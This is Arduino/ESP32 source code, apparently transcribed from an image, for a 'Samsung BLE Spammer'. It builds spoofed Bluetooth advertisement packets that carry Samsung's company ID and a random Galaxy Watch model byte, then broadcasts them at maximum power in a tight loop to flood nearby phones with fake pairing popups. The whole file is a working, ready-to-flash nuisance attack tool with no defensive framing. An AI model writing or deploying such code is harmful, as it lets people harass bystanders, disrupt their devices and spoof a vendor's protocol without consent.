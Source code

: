 #include <Arduino.h>
#include <NimBLEDevice.h>

// From CapibaraZero's repository
#define SAMSUNG_COMPANY_ID 0x0075

// Samsung watch models
struct WatchModel {
    uint8_t value;
    const char* name;
};

const WatchModel watch_models[] = {
    {0x01, "White Watch4 Classic 44m"},
    {0x02, "Black Watch4 Classic 40m"},
    {0x03, "White Watch4 Classic 40m"},
    {0x04, "Black Watch4 44mm"},
    {0x05, "Silver Watch4 44mm"},
    {0x06, "Green Watch4 44mm"},
    {0x07, "Black Watch4 40mm"},
    {0x08, "White Watch4 40mm"},
    {0x09, "Gold Watch4 40mm"},
    {0x0A, "French Watch4"},
    {0x0B, "French Watch4 Classic"},
    {0x0C, "Fox Watch5 44mm"},
    {0x11, "Black Watch5 44mm"},
    {0x12, "Sapphire Watch5 44mm"},
    {0x13, "Purpleish Watch5 40mm"},
    {0x14, "Gold Watch5 40mm"},
    {0x15, "Black Watch5 Pro 45mm"},
    {0x16, "Gray Watch5 Pro 45mm"},
    {0x17, "White Watch5 44mm"},
    {0x18, "White & Black Watch5"},
    {0x1B, "Black Watch6 Pink 40mm"},
    {0x1C, "Gold Watch6 Gold 40mm"},
    {0x1D, "Silver Watch6 Cyan 44mm"},
    {0x1E, "Black Watch6 Classic 43m"},
    {0x20, "Green Watch6 Classic 43m"},
    {0x1A, "Fallback Watch"}
};

NimBLEAdvertising* pAdvertising;
int packetCount = 0;

void setup() {
  Serial.begin(115200);
  Serial.println("Starting Samsung BLE Spammer...");

  // Initialize BLE
  NimBLEDevice::init("");
  NimBLEDevice::setPower(ESP_PWR_LVL_P9); // Max power
  
  pAdvertising = NimBLEDevice::getAdvertising();
  
  // Seed random number generator
  randomSeed(analogRead(0));
}

void buildSamsungPacket(NimBLEAdvertisementData &advData) {
  uint8_t packet[15];
  int i = 0;

  // Select random watch model
  uint8_t model = watch_models[random(sizeof(watch_models)/sizeof(WatchModel))].value;

  // Construct packet based on CapibaraZero's research
  packet[i++] = 14; // Size
  packet[i++] = 0xFF; // Manufacturer Specific Data
  packet[i++] = SAMSUNG_COMPANY_ID & 0xFF; // Samsung Company ID (LSB)
  packet[i++] = (SAMSUNG_COMPANY_ID >> 8) & 0xFF; // Samsung Company ID (MSB)
  packet[i++] = 0x01;
  packet[i++] = 0x00;
  packet[i++] = 0x02;
  packet[i++] = 0x00;
  packet[i++] = 0x01;
  packet[i++] = 0x01;
  packet[i++] = 0xFF;
  packet[i++] = 0x00;
  packet[i++] = 0x00;
  packet[i++] = 0x43;
  packet[i++] = model; // Watch model

  advData.addData(std::string((char*)packet, sizeof(packet)));
}

void loop() {
  NimBLEAdvertisementData advertisementData;
  buildSamsungPacket(advertisementData);
  
  pAdvertising->setAdvertisementData(advertisementData);
  pAdvertising->start();
  delay(20); // Short delay between packets
  pAdvertising->stop();
  
  packetCount++;
  if (packetCount % 10 == 0) {
    Serial.printf("Packets sent: %d\n", packetCount);
  }
  
  delay(80); // Adjust spam rate
}